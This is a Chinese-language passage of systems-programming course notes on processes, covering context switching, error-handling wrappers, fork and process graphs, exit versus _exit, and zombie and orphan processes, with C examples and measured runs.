程序是静态的，进程是动态的，两者不是一一对应的。一个程序可以对应多个进程：把同一个可执行文件运行两次，就会有两个进程，它们有各自的 PID、各自的地址空间和各自的寄存器，互不影响。默认环境上把一个打印自己 PID 的程序连续运行两次，得到两个不同的 PID（26523 和 26524），而它们的 PPID 都是启动它们的那个 shell（26509）；两个实例同时运行时也是如此，只是 PID 的分配顺序不定。一个进程也可以对应多个程序，而且是先后关系：进程调用 execve 后，内核用一个新程序替换掉它原来的代码、数据和栈，PID 保持不变（16.12 节有实测）。所以“多个进程跑同一个程序”和“一个进程先后跑多个程序”都是日常操作，前者是你打开两个终端，后者是 shell 执行你输入的每条命令。
逻辑控制流与并发#
有了逻辑控制流这个概念，就可以给并发一个准确的定义（课件 p.28）。每个进程就是一条逻辑控制流。如果两条逻辑控制流在时间上有重叠，就说这两个进程是并发的（concurrent），它们并发地运行；否则它们是顺序的（sequential）。注意这个定义看的是时间区间是否重叠，而不是处理器的个数。
图 5 用一个单核上的例子说明。进程 A 的执行被分成两段，中间插入了 B 和 C 的执行；B 结束后 C 才开始。按定义，A 与 B 并发，A 与 C 并发，而 B 与 C 是顺序的，因为 B 的结束早于 C 的开始。
图 5 并发与顺序（课件 p.28–29）：（a）单核上 A 与 B、A 与 C 的执行时间重叠，是并发的，B 与 C 没有重叠，是顺序的；（b）用户视角下，并发的进程可以看作彼此并行地运行
这里有一个容易忽略的事实：在单核上，并发进程的物理控制流在时间上是互不相交的——任何时刻只有一个进程在执行指令（课件 p.29）。但在用户看来，这些进程就像在并行地各自推进。图 5（b）画的就是这个视角：三条逻辑流并排延伸，每条都是连续的。把“物理上交替执行”隐藏起来、呈现为“逻辑上同时推进”，正是上下文切换要完成的工作。多核处理器上的情形有所不同，一个核上的交替和多个核上的真正同时执行，对程序可见的效果在 16.6 节讨论。
示例：用时间区间判断并发（作业 8.9 的做法）
课件 p.28 的定义直接就是作业 8.9 的判据。给定每个进程的开始时间和结束时间，把它们画成时间轴上的区间：两个区间有重叠，这对进程就是并发的；一个区间完全结束之后另一个才开始，这对进程就是顺序的。如果一个进程的结束时刻恰好等于另一个的开始时刻，要看题目怎样约定端点，作业 8.9 的数据没有这种情况。判断时逐对检查即可，完整的演算见第三部分。
16.6 用户模式、内核模式与上下文切换（教材 8.2.4 节，课件 p.23–27、p.30）#
课件没有单独讲这一层，但它是理解前面所有内容的钥匙：异常处理程序凭什么能做用户程序做不了的事？
处理器有一个模式位（mode bit），它的两个取值把执行分成用户模式（user mode）和内核模式（kernel mode）。运行在用户模式的代码不能执行特权指令（比如停机、改变页表、直接操作设备），也不能访问内核的内存区域。进程平时就运行在用户模式下。
当异常发生时，控制转入内核，处理器同时切换到内核模式，异常处理程序因此拥有全部特权：它可以修改页表、读写设备、访问任何一个进程的内核数据结构。处理程序返回时，处理器切换回用户模式，再回到用户代码。所以 16.3 节强调 syscall“由内核执行、拥有另一套特权”，机制就在这个模式位上。
由此也可以理解课件 p.30 的一句话：内核不是一个单独的进程，而是运行在某个现有进程之内的一段共享代码。进程执行到 syscall，或者被中断打断时，是同一个进程从用户模式进入了内核模式，执行内核的代码；这段代码运行在该进程的内核栈上，使用的是该进程的上下文。内核没有自己的 PID，ps 里那些名字带方括号的内核线程是另一回事，不要和“内核代码运行在进程中”混淆。
★ 要点：模式切换发生在哪里
每次系统调用、每次中断、每次故障，都伴随两次模式切换：进入内核时从用户模式到内核模式，返回时再切回来。模式切换是异常控制流的一部分，对用户程序不可见，但不是免费的——它要保存和恢复现场、切换栈、使一部分缓存失效。16.14 节的测量表明，一次什么都不做的 getpid 系统调用大约比一次普通函数调用贵两个数量级，代价主要就在这里。
上下文切换#
现在可以把“独占处理器”这个假象的实现讲清楚。课件 p.23–26 是同一张图的四步动画，图 6 把它们合成一步。
系统中同时存在多个进程，每个进程的地址空间（栈、堆、数据、代码）都在内存里，但单处理器只有一套寄存器。内核维护每个进程的上下文（context），其中最关键的是一组保存下来的寄存器值。切换分三步。第一步，内核把当前进程的寄存器保存到内存中它的上下文里。第二步，内核调度下一个要运行的进程——按某种策略从可运行的进程中选一个。第三步，内核把选中进程保存的寄存器装回处理器，并切换到它的地址空间（让页表指向它的内存映像），然后从这个进程上次停下的地方继续执行。这三步合起来就是一次上下文切换。
图 6 上下文切换的三步（课件 p.24–26 的动画合成）：保存当前进程的寄存器，调度下一个进程，装载它保存的寄存器并切换地址空间
上下文里到底有什么？从程序员可见的角度看，至少包括：通用寄存器、程序计数器、条件码、栈指针；内核用于返回用户模式的信息；进程的地址空间信息（页表）；以及内核为这个进程维护的数据结构，比如打开文件的表、它收到的信号、它的 PID 和状态。前一组是每次切换都必须保存和恢复的，后几组保存在内核的进程表里，切换时改变的是“当前进程”的指向。
切换由谁触发？进程自己可以通过系统调用进入内核（比如 read 需要等待磁盘，进程主动让出处理器），也可以被外部事件打断：定时器中断每几毫秒发生一次，内核在中断处理中检查当前进程是否已经运行够久，是的话就切换到另一个进程。所以课件 p.7 说上下文切换“由操作系统和硬件定时器实现”。
课件 p.30 用时间线画出切换的效果：进程 A 在用户代码和内核代码之间来回（每次系统调用或中断都进入内核），在某个时刻内核决定切换，此后处理器执行的就是进程 B 的内核代码和用户代码；下一次切换再回到 A。注意 A 进入内核再返回 A，这不叫上下文切换，这只是一次系统调用；只有控制从一个进程的内核代码转到另一个进程，才是上下文切换。
常见问题：上下文切换的代价不小，为什么还要切换？
因为不切换的话，一台机器同时只能做一件事。切换的代价是真实的：保存和恢复寄存器、切换地址空间会使缓存和 TLB 中的大量数据失效，随后的执行会明显变慢，一次切换的直接开销在微秒量级。但换来的是三件事。第一，利用率：一个进程等待磁盘或网络时，处理器可以去运行另一个进程，而不是空转。第二，响应：即使某个进程在做长时间的计算，定时器中断也能保证其他进程（比如你的 shell）定期得到执行，键盘输入不至于等几十秒才有反应。第三，隔离：每个进程有自己的地址空间和资源记账，一个进程崩溃不会直接毁掉另一个。并发的价值在绝大多数情况下远大于切换的代价，所以操作系统的设计目标是把切换做得更快，而不是避免切换。
多核处理器改变的是规模，不是机制（课件 p.27）。一颗芯片上有多个核，每个核是一套完整的处理器，各有自己的寄存器，共享主存和部分缓存。于是任何时刻可以有多个进程真正同时执行，而不只是并发。内核的调度因此多了一个维度：既要决定每个进程何时运行，也要决定它在哪个核上运行。
常见问题：多核上的上下文切换和单核有什么不同？
单核上，并发完全靠切换制造：任何时刻只有一个进程在执行，进程之间的交替是强制的。多核上有两点不同。第一，不同核上的进程是真正并行的，它们的指令在时间上重叠，不再依赖切换来制造“同时”的效果；单核上那种“一条逻辑流的两段之间插入另一条”的整齐交替也不再成立。第二，切换本身变成了每个核各自的事：每个核有自己的寄存器组，保存和恢复只涉及那个核；但选择下一个进程时要在核之间协调，避免两个核选中同一个进程，也要考虑把进程固定在同一个核上以利用缓存。
对编写程序的人来说，最重要的后果是：并发程序里一切没有明确顺序保证的事情，在多核上会更频繁地以各种顺序发生。单核上两个进程修改同一份共享状态，切换点有限；多核上它们可以在同一纳秒各自执行一条指令。16.8 节会看到，即使在单核上，fork 返回后父子进程谁先运行也是不确定的，多核只是让这种不确定性更容易暴露。
上下文切换的次数可以直接读到。每个进程的 /proc/<pid>/status 里有两个计数：voluntary_ctxt_switches 是进程主动让出处理器的次数（典型原因是等待某个事件），nonvoluntary_ctxt_switches 是进程被内核强制换下的次数（典型原因是时间片用完）。默认环境上的实测：一个进程调用 20 次 usleep，主动切换正好增加 20 次，被动切换为零；紧接着做大约一秒的纯计算，被动切换只增加了十几次；把三个做同样计算的进程同时放在两个核上跑，每个进程的被动切换就增加到七八百次——核不够分，内核只能频繁地换上换下。这组数字说明切换不是均匀发生的，它取决于有多少进程在争夺多少个核。
16.7 系统调用错误处理与包装函数（课件 p.32–34）#
从这一节开始讲进程控制，而进程控制的每个函数都可能失败，所以先讲失败了怎么办。
Linux 的系统级函数出错时，惯例是返回 −1，并设置全局变量 errno 指出原因（课件 p.32）。一条必须遵守的规则是：每个系统级函数的返回值都要检查。唯一的例外是那少数几个返回 void 的函数。不检查的后果不是立刻崩溃，而是带着错误继续往下走，在很远的地方才表现出来，极难排查。
课件给出的写法是每次调用都判断：
if ((pid = fork()) < 0) {
fprintf(stderr, "fork error: %s\n", strerror(errno));
exit(-1);
}strerror(errno) 把错误码翻译成可读的字符串，比如 errno 为 2 时得到 "No such file or directory"。反复写这段代码很累，可以收成一个报错函数（课件 p.33）：
void unix_error(char *msg) /* Unix 风格的报错 */
{
fprintf(stderr, "%s: %s\n", msg, strerror(errno));
exit(-1);
}
if ((pid = fork()) < 0)
unix_error("fork error");⚠ 课件 p.33 的两处问题
第一处是旁注 “Note: csapp.c exits with 0.”：课件正文的 unix_error 以 exit(−1) 终止，而教材附带的 csapp.c 里同名函数调用的是 exit(0)。两者不一致，以课件正文为准；另外 16.11 节会讲到，退出状态只保留低 8 位，exit(−1) 实际留下的状态是 255。第二处是拼写：同一页的 “Not alway appropriate” 应为 always。
课件紧接着提醒：出错就退出，并不总是合适的做法，要看应用的需求。一个交互式程序在打开文件失败时，应该提示用户换个文件名，而不是整个退出。
为了让课件里的示例代码更短，教材采用 Stevens 风格的错误处理包装函数（error-handling wrapper，课件 p.34）：把检查封装进一个同名但首字母大写的函数。
pid_t Fork(void)
{
pid_t pid;
if ((pid = fork()) < 0)
unix_error("Fork error");
return pid;
}
pid = Fork();调用 Fork 之后不需要再判断返回值：能执行到下一行，就说明成功了，失败的情况已经在包装函数里终止了程序。课件同时强调，这不是实际应用中通常想要的做法——它用终止程序来换取示例代码的简洁，真实程序应该按自己的需要处理错误。本讲义后面引用课件的示例时沿用首字母大写的包装函数，自己的验证程序则直接调用小写的系统函数并检查返回值。
一个完整的例子：命令行程序的错误处理#
Cache Lab 的 csim 是第一个要求自己处理命令行参数和各种错误的程序，Cache Lab 讲义第 2.3–2.5 节介绍了 getopt、strtol 与 errno、perror、stderr 和退出码。进程控制函数让错误处理又多了一层：出错的不只是“参数不对”“文件打不开”，还有 fork、execve、waitpid 这样的系统调用，而且错误可能发生在子进程里。下面的 runn 把两部分结合起来：runn [-n count] prog [args...] 把程序 prog 依次运行 count 次，报告其中失败的次数。
static void usage(const char *name)
{
fprintf(stderr, "usage: %s [-n count] prog [args...]\n", name);
exit(2); /* 2: wrong usage */
}
static void unix_error(const char *msg) /* system call failed */
{
fprintf(stderr, "%s: %s\n", msg, strerror(errno));
exit(1);
}
int main(int argc, char **argv)
{
long n = 1;
int opt, i, status, failed = 0;
char *end;
pid_t pid;
while ((opt = getopt(argc, argv, "n:")) != -1) {
if (opt != 'n')
usage(argv[0]);
errno = 0;
n = strtol(optarg, &end, 10);
if (end == optarg || *end != '\0' || errno == ERANGE || n < 1 || n > 1000) {
fprintf(stderr, "%s: bad count '%s'\n", argv[0], optarg);
usage(argv[0]);
}
}
if (optind >= argc) /* no program given */
usage(argv[0]);
for (i = 0; i < n; i++) {
if ((pid = fork()) < 0)
unix_error("fork");
if (pid == 0) { /* child */
execve(argv[optind], &argv[optind], environ);
fprintf(stderr, "%s: %s\n", argv[optind], strerror(errno));
_exit(127); /* never fall back into the loop */
}
if (waitpid(pid, &status, 0) < 0)
unix_error("waitpid");
if (WIFEXITED(status) && WEXITSTATUS(status) == 0)
continue;
failed++;
if (WIFEXITED(status))
fprintf(stderr, "run %d: exit status %d\n", i + 1, WEXITSTATUS(status));
else if (WIFSIGNALED(status))
fprintf(stderr, "run %d: killed by signal %d\n", i + 1, WTERMSIG(status));
}
printf("%ld runs, %d failed\n", n, failed);
return failed ? 1 : 0;
}程序开头还需要 stdio.h、stdlib.h、string.h、errno.h、unistd.h、sys/wait.h 几个头文件和 extern char **environ; 的声明（完整的源文件在验证程序 sim/e10/runn.c 中）。程序里的错误分成三类，处理方式各不相同。
第一类是用户的输入错误：没有给出要运行的程序，或者 -n 后面不是 1 到 1000 之间的整数。这不是程序本身的问题，正确的做法是在 stderr 上说明用法，以退出码 2 结束。判断数字是否合法，用的正是 Cache Lab 讲义 2.4 节 strtol 的三项检查，外加范围检查。
第二类是系统调用失败：fork 在进程数达到上限或内存不足时会失败，waitpid 在没有可以等待的子进程时会失败。这类错误程序自己无法补救，用课件的 unix_error 报告 errno 的含义，以退出码 1 结束。
第三类是被运行的程序失败。这是 runn 要报告的正常结果，不应该让 runn 自己终止：从 waitpid 得到的 status 中，用 16.11 节的宏分辨“正常退出但退出状态不是 0”和“被信号终止”，分别报告。
最容易写错的是 execve 失败之后的那两行。execve 成功时不返回（16.12 节），返回就意味着失败，而此时执行这两行的是子进程。它必须立即终止，否则就会带着从父进程复制来的全部状态回到 for 循环里，继续 fork、继续 waitpid，成了又一个“父进程”。退出状态 127 沿用 shell 的惯例，表示“命令找不到”。用 _exit 而不是 exit，是为了不执行从父进程继承来的 atexit 函数，也不把 stdio 缓冲区里从父进程继承来的内容再输出一遍（16.13 节）。
默认环境上的运行结果如下，其中 crash 是一个解引用空指针的小程序：
linux> ./runn -n 3x /bin/true
./runn: bad count '3x'
usage: ./runn [-n count] prog [args...] # 退出码 2
linux> ./runn -n 2 /bin/false
run 1: exit status 1
run 2: exit status 1
2 runs, 2 failed # 退出码 1
linux> ./runn -n 2 ./nosuch
./nosuch: No such file or directory
run 1: exit status 127
./nosuch: No such file or directory
run 2: exit status 127
2 runs, 2 failed
linux> ./runn -n 2 ./crash
run 1: killed by signal 11
run 2: killed by signal 11
2 runs, 2 failed
linux> ./runn -n 2 /bin/echo hi
hi
hi
2 runs, 0 failed # 退出码 0如果把 _exit(127) 那一行删掉，再运行 ./runn -n 3 ./nosuch，输出里会多出三行“waitpid: No child processes”，每次失败报告的退出状态也从 127 变成了 1。原因是 execve 失败的子进程回到了循环里：它的 pid 变量是 0，接着调用 waitpid 等待子进程，而它自己没有子进程，于是 waitpid 出错，由 unix_error 以退出码 1 终止。错误的根源在 execve 之后，表现出来的却是 waitpid 的报错，正应了本节开头说的“带着错误继续往下走，在很远的地方才表现出来”。如果连 waitpid 的返回值也不检查，这个子进程还会接着 fork，进程数会成倍增长。
教材附录 A 把系统级函数报告错误的方式归纳为三种风格：本节的 Unix 风格（返回 −1 并设置 errno，fork、execve、waitpid 等都是）；Posix 风格（直接返回错误码、成功时返回 0，线程函数 pthread_create 等是这样，后面的并发编程会用到）；以及 getaddrinfo 等网络函数的 GAI 风格（返回值本身就是错误码，用 gai_strerror 翻译）。csapp.c 为每种风格各写了一个报错函数（unix_error、posix_error、gai_error），包装函数按被包装函数的风格调用对应的那一个。
16.8 进程 ID、进程状态与 fork（课件 p.35–42）#
每个进程有一个唯一的正整数 PID，相关的函数有两个（课件 p.35）：getpid 返回当前进程的 PID，getppid 返回父进程的 PID。默认环境上实测，一个程序连续运行两次，得到的 PID 分别是 26523 和 26524，PPID 都是 26509，也就是启动它们的 shell；而 shell 自己的 PID 是 26397，它的父进程又是更上一层。PID 用完会循环分配，所以不要把 PID 存下来当作永久标识。
从程序员的角度看，一个进程在任何时刻处于三种状态之一（课件 p.36）。运行（running）：正在执行，或者在等待被执行并且最终会被内核调度到。注意这个定义比字面宽，它包括了“就绪但还没轮到”的进程，ps 里两者都显示为 R。停止（stopped）：执行被挂起，在收到进一步的通知之前不会被调度，这是信号的作用，下一讲讨论。终止（terminated）：进程已经永久地停止了。
⚠ 课件 p.36 的用词容易引起混淆
课件对终止状态的解释是 “Process is stopped permanently”。stopped 在这里是普通英语的“停止”，但同一页刚刚把 Stopped 定义成一个专门的状态。准确的说法是：终止的进程已经结束，不再被调度，也不会再恢复；停止的进程只是被挂起，收到 SIGCONT 信号后可以继续运行。两者在 ps 的 STAT 列里分别显示为不同的字母。
进程怎样进入终止状态，终止之后还占用什么资源，是 16.10 节的内容。在此之前先看进程怎样诞生。
用 fork 创建进程#
父进程调用 fork 创建一个新的运行着的子进程（课件 p.37）。fork 最特别的地方是调用一次，返回两次：在父进程中，它返回子进程的 PID；在子进程中，它返回 0。返回值不同，正是两个进程随后执行不同代码的依据。子进程几乎是父进程的复制品，但有三处关键的异同。第一，子进程得到父进程虚拟地址空间的一份相同但独立的副本，此后两边各自修改互不影响。第二，子进程得到父进程打开文件描述符的副本，因此父子进程共享同一个打开文件的读写位置。第三，子进程有自己的 PID。
⚠ 课件 p.37 的两处小问题
函数原型写成了 int fork(void)，准确的原型是 pid_t fork(void)。pid_t 在 Linux 上就是 int，所以对理解没有影响，但写代码时应使用 pid_t。“Child get an identical” 应为 gets。
图 7 是 fork 的概念图（课件 p.38）。调用之前，进程有自己的栈、堆、数据、代码和寄存器。fork 制作这份执行状态的完整副本，把其中一份指定为父进程、另一份指定为子进程，然后继续执行两者之一。图中父子进程各有一套栈、堆、数据和寄存器，代码因为只读，实际上可以共享物理页面，但逻辑上各自拥有。
图 7 fork 的概念图（课件 p.38）：制作执行状态的完整副本，指定父子进程后继续执行其中之一；两边的地址空间此后互不影响
课件 p.39 的例子把这些性质都表现出来：
int main(int argc, char **argv)
{
pid_t pid;
int x = 1;
pid = Fork();
if (pid == 0) { /* 子进程 */
printf("child : x=%d\n", ++x);
return 0;
}
/* 父进程 */
printf("parent: x=%d\n", --x);
return 0;
}fork 返回时，父子进程的 x 都是 1。子进程执行 ++x，打印 child : x=2；父进程执行 --x，打印 parent: x=0。两边对 x 的修改互不可见，这就是“独立的地址空间”。而谁先打印，则完全无法预测：课件四次运行，三次父进程在前，一次子进程在前。
示例：默认环境上的统计（fork 1000 次）
不加任何干预地运行 1000 次，父进程先输出 941 次，子进程先输出 59 次。子进程先运行的情况确实存在，但只占大约 6%。这个比例每次测量都不同，它取决于内核的调度；课件四次运行里出现一次，只是样本小。写程序时不能赌任何一种顺序。
这种“几乎总是同一个顺序”的现象本身就是一个隐患（课件 p.40）：它把程序里的竞态条件隐藏起来，测试时一切正常，换一台机器或负载一高就出错。课件的解决办法是用第 15 讲的运行时打桩（15.15 节）拦截 fork，插入随机延迟。拦截函数的核心是（课件 p.41，完整的可运行版本在验证程序 sim/e4/myfork.c 中）：
pid_t fork(void)
{
initialize();
int parent_delay = choose_delay(); /* 各自随机一个延迟 */
int child_delay = choose_delay();
pid_t parent_pid = getpid();
pid_t child_pid_or_zero = real_fork(); /* 调用真正的 fork */
if (child_pid_or_zero > 0) { /* 父进程 */
ms_sleep(parent_delay);
} else { /* 子进程 */
ms_sleep(child_delay);
}
return child_pid_or_zero;
}用 LD_PRELOAD=./myfork.so 加载后，程序里每一次 fork 都被换成这个版本：父子进程各睡一段随机的时间，谁先继续执行就不再固定。默认环境上用它运行 300 次，两种顺序变成 140 对 160，接近一半一半。课件 p.41 的备注还说明可以用环境变量 VERBOSE 打开一行诊断输出，打印父子进程各自的 PID 和延迟。
⚠ 说明：打桩时不要在包装函数里调用被拦截的函数
第 15 讲 15.15 节记录过一个教训：如果被拦截的是 printf，包装函数里再调用 printf 就会无限递归。这里拦截的是 fork，包装函数里用 printf 是安全的，但调用 fork 就必须通过 dlsym 取得的真实地址 real_fork，直接写 fork() 会调用到自己。
把例子扩展成每个进程打印两次，地址空间的独立性就更明显了（forkx2，课件 p.42）：
pid = Fork();
if (pid == 0) { /* 子进程 */
printf("child : x=%d\n", ++x);
printf("child : x=%d\n", ++x);
return 0;
}
/* 父进程 */
printf("parent: x=%d\n", --x);
printf("parent: x=%d\n", --x);
return 0;fork 返回时两边的 x 都是 1，此后各改各的：子进程打印 2 和 3，父进程打印 0 和 −1。四行输出的先后有多少种可能？父进程的两行之间、子进程的两行之间顺序是固定的（同一个进程内的语句按顺序执行），但两边可以任意交错，所以是 6 种。课件只展示了其中一种（父进程的两行在前）。默认环境上的实测说明，看到哪几种取决于输出方式和时机：两次 printf 之间睡 1 毫秒再运行 1000 次，6 种里出现了 4 种；让输出立即送出（行缓冲）运行 2000 次，出现了 4 种，其中父进程两行在前的占 1955 次；而如果把输出送进管道，6 种里只会剩下 2 种。最后这个现象非常重要，16.13 节专门解释。
★ 要点：fork 之后父子进程各自拥有什么
相同的是：fork 返回那一刻，两边的代码、数据、栈和寄存器值完全一致（除了 fork 的返回值本身），打开的文件描述符也指向同样的打开文件。不同的是：各自独立的地址空间（此后的写入互不影响）、各自的 PID、以及返回值（父进程得到子进程的 PID，子进程得到 0）。执行顺序没有任何保证。
16.9 用进程图判断输出是否可行（课件 p.43–48）#
并发程序的输出有许多种可能，靠多运行几次是枚举不全的。进程图（process graph）是一个系统的工具，它把程序里所有语句的先后约束画出来，然后用拓扑排序找出全部可能的执行顺序（课件 p.43）。
画图的规则是：每个顶点是一条语句的一次执行；从 a 到 b 的边表示 a 发生在 b 之前；边可以用当时的变量值标注，printf 顶点用它的输出标注；图从一个没有入边的顶点开始。任意一个拓扑排序——把所有顶点排成一行，使每条边都从左指向右——就对应一种可行的整体顺序。
图 8（a）是 fork.c 的进程图（课件 p.44）。main 和 fork 由父进程执行，之后图分成两支：子进程一支是 printf（输出 child : x=2）然后 exit，父进程一支是 printf（输出 parent: x=0）然后 exit。两支内部有边，两支之间没有边。
图 8 进程图（课件 p.44–45）：（a）fork.c 的进程图，fork 之后分成没有先后约束的两支；（b）重新标注顶点后，一种可行的拓扑排序和一种不可行的排序
⚠ 课件 p.44–45 的两处小问题
进程图里的 fork 被文字框拆成了两行，显示成 “for” 和 “k”，读图时把它还原成 fork。p.45 的 “Relabled” 应为 Relabeled。
把顶点重新标注成 a 到 f 之后（课件 p.45，图 8（b）），可行与不可行的区别就清楚了。a b e c f d 是一个拓扑排序：每一条边的起点都在终点左边。a b f c e d 不是：f 是子进程的 exit，它必须发生在 e（子进程的 printf）之后，而这里 f 排在了 e 的前面。判断一个输出可不可行，就是在问：存不存在一种拓扑排序，使其中 printf 顶点的顺序正好是这个输出。
用同样的方法看课件的三个例子。fork2 先打印 L0，然后两次 fork，每次 fork 之后都打印（课件 p.46）：
void fork2()
{
printf("L0\n");
fork();
printf("L1\n");
fork();
printf("Bye\n");
}第一次 fork 之后有了两个进程，它们都会执行后面的 fork，所以一共产生四个进程，每个都打印 Bye；L1 由第一次 fork 之后的两个进程打印，共两次；L0 只由最初的进程在 fork 之前打印，只有一次。图 9（a）是它的进程图。因为两个打印 L1 的进程之间没有先后约束，一个进程完全可以先打印 L1、再 fork、再打印 Bye，另一个进程的 L1 排在这些 Bye 之后，所以 L1 不一定都出现在 Bye 之前。
图 9 三个例子的进程图（课件 p.46–48）：（a）fork2，两次不受限制的 fork 产生四个进程；（b）fork4，嵌套在父进程中，只有最初的进程执行第二次 fork；（c）fork5，嵌套在子进程中，只有第一次 fork 的子进程执行第二次 fork
fork4 把 fork 嵌套在父进程里（课件 p.47）：
void fork4()
{
printf("L0\n");
if (fork() != 0) {
printf("L1\n");
if (fork() != 0) {
printf("L2\n");
}
}
printf("Bye\n");
}第一次 fork 的子进程不进入 if，直接打印 Bye 结束；只有父进程打印 L1 并执行第二次 fork。于是 L2 只有一次，Bye 有三次，而且打印 L1 的进程和打印 L2 的进程是同一个，L1 必然在 L2 之前。fork5 则把嵌套放在子进程里（课件 p.48），只是把两个条件从 != 0 换成了 == 0：
void fork5()
{
printf("L0\n");
if (fork() == 0) {
printf("L1\n");
if (fork() == 0) {
printf("L2\n");
}
}
printf("Bye\n");
}这一次是最初的进程 fork 之后直接打印 Bye 结束，第一次 fork 的子进程打印 L1 并执行第二次 fork；第二次 fork 的子进程打印 L2 和 Bye，它的父进程（也就是第一个子进程）只打印 Bye。进程数和 fork4 一样是三个，L2 也只有一次，但 L1 和 L2 由两个不同的进程打印。L1 在 L2 之前这一点仍然成立，原因换成了：打印 L2 的进程是在 L1 打印之后才被创建出来的。
表 4 列出这三个例子的全部可行输出，以及课件给出的判断。可行输出是用一个实现了上述拓扑排序的枚举程序逐一生成的（验证程序 sim/e5/forkenum.py，它对任意由 fork、if、printf、wait、exit 组成的小程序枚举全部可行输出），课件 p.46–48 给出的 6 个判断全部正确。
表 4 fork2、fork4、fork5 的全部可行输出（枚举程序生成），以及课件给出的不可行例子
| 程序 | 可行输出 | 课件的判断 |
|---|---|---|
| fork2 | L0 L1 Bye Bye L1 Bye Bye | p.46 列为可行，正确 |
| fork2 | L0 L1 Bye L1 Bye Bye Bye | |
| fork2 | L0 L1 L1 Bye Bye Bye Bye | |
| fork2 | L0 Bye L1 Bye L1 Bye Bye | p.46 列为不可行，正确：每个打印 Bye 的进程，在它自己（或它的父进程在 fork 之前）打印过 L1 之后才打印 Bye，所以第一个 Bye 不可能排在两个 L1 之前 |
| fork4 | L0 L1 L2 Bye Bye Bye | |
| fork4 | L0 L1 Bye L2 Bye Bye | |
| fork4 | L0 L1 Bye Bye L2 Bye | p.47 列为可行，正确 |
| fork4 | L0 Bye L1 L2 Bye Bye | |
| fork4 | L0 Bye L1 Bye L2 Bye | |
| fork4 | L0 Bye L1 Bye Bye L2 | p.47 列为不可行，正确：打印 L2 的是最初的进程，它打印 L2 之后还要打印自己的 Bye，所以 L2 不可能是最后一行 |
| fork5 | L0 Bye L1 Bye L2 Bye | |
| fork5 | L0 Bye L1 L2 Bye Bye | p.48 列为可行，正确 |
| fork5 | L0 L1 Bye Bye L2 Bye | |
| fork5 | L0 L1 Bye L2 Bye Bye | |
| fork5 | L0 L1 L2 Bye Bye Bye | |
| fork5 | L0 Bye L1 Bye Bye L2 | p.48 列为不可行，正确：打印 L2 的是第二次 fork 的子进程，它打印 L2 之后还要打印自己的 Bye，L2 同样不可能是最后一行 |
实际运行和枚举对得上。每个程序运行 2000 次，出现过的输出恰好就是表里的那些，一种不多、一种不少：fork2 的三种分别出现 67、326、1607 次，fork4 的五种从 2 次到 1650 次不等，fork5 的五种里有一种出现 1930 次、另一种只出现 2 次。分布极其不均，所以“我跑了很多次没见过”不能说明一个输出不可行；反过来，只要见过一次，就一定可行。判断可行性只能靠进程图，不能靠碰运气。
★ 要点：用进程图判断一个输出是否可行
先确定每个进程会执行哪些语句：fork 复制出的子进程从 fork 的返回处继续，if 的条件决定哪些语句只有父进程或只有子进程执行。再确定先后约束：同一个进程内的语句按程序顺序排列；如果有 wait，父进程的 wait 必须排在某个子进程终止之后。一个输出可行，当且仅当存在一种符合全部约束的排列，其 printf 的顺序与该输出一致。找不可行的理由时，通常是发现某个输出要求“A 在 B 之前”，而图里有一条从 B 到 A 的路径。
16.10 终止进程与回收子进程（课件 p.49–52）#
进程因为三种原因之一而终止（课件 p.49）：收到一个默认行为是终止的信号（下一讲）；从主程序 main 返回；调用 exit 函数。
void exit(int status);exit 以 status 作为退出状态（exit status）终止进程。惯例是正常结束返回 0，出错返回非零值。从 main 中 return 一个整数，效果与用这个整数调用 exit 相同。和 fork 相对照，exit 是调用一次，从不返回：执行到 exit，进程就结束了，exit 后面的语句永远不会执行。
exit 并不是直接进入内核。它是 C 库函数，先做一些收尾工作，再调用系统调用结束进程：按与登记时相反的顺序调用所有用 atexit 登记的函数，刷新并关闭所有标准 I/O 流（把缓冲区里还没有送出的输出写出去），最后执行 exit_group 系统调用。另有一个 _exit 函数直接执行系统调用，跳过前面的收尾。两者的差别用一个程序就能看出来：
static void bye(void) { printf("[atexit handler]"); }
int main(int argc, char **argv)
{
atexit(bye);
printf("hello "); /* 没有换行，留在缓冲区里 */
if (argc > 1)
_exit(0); /* 直接进内核 */
exit(0); /* 先调用 bye，再刷新缓冲区，再进内核 */
}不带参数运行时调用 exit，输出 hello [atexit handler]；带一个参数运行时调用 _exit，什么也不输出——hello 还在缓冲区里，进程就已经结束了，bye 也没有被调用（默认环境上实测）。作业 8.18 用到的正是 atexit 的这个性质：子进程登记了一个函数，它就会在子进程 exit 时额外输出一些东西。
回收子进程与僵死进程#
进程终止之后并不会立刻从系统中消失（课件 p.50）。它的退出状态和内核里的一部分数据结构还要保留下来，等待父进程来取。这种已经终止、但还没有被回收的进程称为僵死进程（zombie）：它不再运行，却还占着资源，“半死不活”。父进程用 wait 或 waitpid 对终止的子进程执行回收（reaping）：内核把子进程的退出状态交给父进程，然后删除这个僵死进程，它才真正消失。
如果父进程一直不回收呢？只要父进程自己终止了，它留下的子进程（称为孤儿进程）就会被 init 进程（PID 为 1）收养，由 init 负责回收。所以只有长时间运行的进程才需要显式地回收子进程，比如 shell 和服务器——它们几乎永远不终止，如果不回收，僵死进程就会越积越多，最终耗尽系统的进程表。
⚠ 课件 p.50 的一句话需要解释，收养者也不一定是 init
课件说孤儿进程由 init 回收，“Unless ppid == 1! Then need to reboot…”。这句话的意思是：如果一个进程的父进程就是 init，而 init 没有回收它，那么没有更上一级可以收养它了，僵死进程会一直留到重启。实际的 init 总是会回收自己的子进程，所以这只是理论上的情形。
另外，“孤儿由 1 号进程收养”是传统的说法。默认环境是一个容器，1 号进程不是 init，而是容器的管理进程 process_api，它同样会回收收养来的僵死进程（实测有零点几秒的延迟）。在一般的桌面 Linux 上，进程还可以把自己声明为“子收割者”（subreaper），这时孤儿会被最近的 subreaper 收养，比如用户会话中的 systemd --user，这一点讲义没有实测，作为一般情况记住即可。不论收养者是谁，“孤儿最终会被某个进程回收”这个结论不变。
课件用两个例子分别演示僵死进程和孤儿进程（课件 p.51–52）。fork7 的子进程打印一行后立即 exit，父进程却进入死循环，永不回收：
void fork7()
{
if (fork() == 0) {
/* 子进程 */
printf("Terminating Child, PID = %d\n", getpid());
exit(0);
} else {
printf("Running Parent, PID = %d\n", getpid());
while (1)
; /* 死循环 */
}
}默认环境上在后台运行它，再用 ps 查看，子进程的状态是 Z、名字后面带着 <defunct>，这就是僵死进程：
Running Parent, PID = 17591
Terminating Child, PID = 17593
PID PPID STAT TIME CMD
17591 10028 R 00:00:00 ./forks 7
